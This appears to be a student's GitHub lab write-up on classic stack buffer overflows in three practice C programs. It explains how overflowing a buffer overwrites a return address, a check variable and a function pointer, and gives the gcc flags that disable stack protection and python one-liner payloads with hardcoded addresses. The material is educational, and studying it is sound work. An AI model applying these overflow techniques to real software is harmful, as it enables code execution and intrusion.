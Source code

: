 # Security-labs
Security-labs
# task1: lab1: Conduct buffer overflow attack .
# BOF1:
![image](https://github.com/user-attachments/assets/2b43fc82-d1d0-429a-9185-167a06871e68)
# stack frame 
![image](https://github.com/user-attachments/assets/9664aca8-6a02-4b0b-b865-4f8ad47ff1ad)
+ when enter more than 200 characters , the data overflow the memory allocated for array[200]
  and overwrites the return address of the ``` vuln() ```.This can cause the program to return to the address of the ```secretFunc()``` function instead of returning to ```main()``` as usual.
  
grep secretFunc: grep is used to search for occurrences of secretFunc in the disassembled output.
This helps you find the memory address or location where the secretFunc is defined.

![image](https://github.com/user-attachments/assets/7a19fee4-0f26-44a1-957e-0e6462709205)

```0804846b```: This is the memory address of the secretFunc in the binary. 
It means that when the program is loaded into memory, the secretFunc will start at this address ```(0x0804846b in hexadecimal)```.
![image](https://github.com/user-attachments/assets/1f73da86-e5e7-4c1b-817c-20d284d695c1)

# BOF2:
![image](https://github.com/user-attachments/assets/468be265-c57b-4c58-b30c-ecc1734694ed)
 # Stack frame:
 ![image](https://github.com/user-attachments/assets/fb843a4e-eff3-44d7-92cb-f0a20a907756)
 Buffer Overflow Vulnerability: The ```fgets()``` call reads up to 44 characters (```fgets(buf, 45, stdin)```),
 but buf is only 40 bytes long. This creates a vulnerability because writing more than 40 characters will overwrite the memory beyond buf.
 
 Overwriting check: If a user enters more than 40 characters, the excess characters will overwrite the value of check, which is stored right after buf in the stack.
 By carefully crafting the input, an attacker can set check to``` 0xdeadbeef```, triggering the final condition and printing ```"Yeah! You win!"```.
 
 1.On ```/seclabs/bof$ ``` 
 
 2.```gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2```
 
 3.```echo $(python -c"print('a'*41)") | ./bof2.out```
 
 ![image](https://github.com/user-attachments/assets/7e478f27-5af5-4d9d-91af-808899757ebc)

4. ```echo $(python -c"print('a'*40) + '\xef\xbe\xad\xde' ") | ./bof2.out```
   ![image](https://github.com/user-attachments/assets/a971c2cf-d6c9-4cd2-8654-ecc72f541718)


# BOF3:
# Stack frame:
![image](https://github.com/user-attachments/assets/0b216046-97f6-46eb-bdcf-dd8139463c40)

1.```objdump -d bof3.out | grep shell```

  ![image](https://github.com/user-attachments/assets/73c84e74-725f-4340-a96b-22ea5d54d4fa)

2.```echo $(python -c"print('a'*128) + '\x5b\x84\x04\x08' ") | ./bof3.out```

![image](https://github.com/user-attachments/assets/0d8480bf-edff-4d90-b10e-3a5a6aa37231)


+ Normal: If there is no buffer overflow, after``` fgets()``` retrieves data from the user,
the function pointer func will still point to sup(), and the program will print``` "Congrat!".```
+ Buffer Overflow: If you enter more than 128 characters, the excess bytes will overwrite adjacent memory locations on the stack, including the function pointer ```func```.
   If you overwrite func with the address of``` shell()```, when ```func() ```is called, the``` shell()``` function will be executed,
   and the program will print "You made it! The shell() function is executed".







 




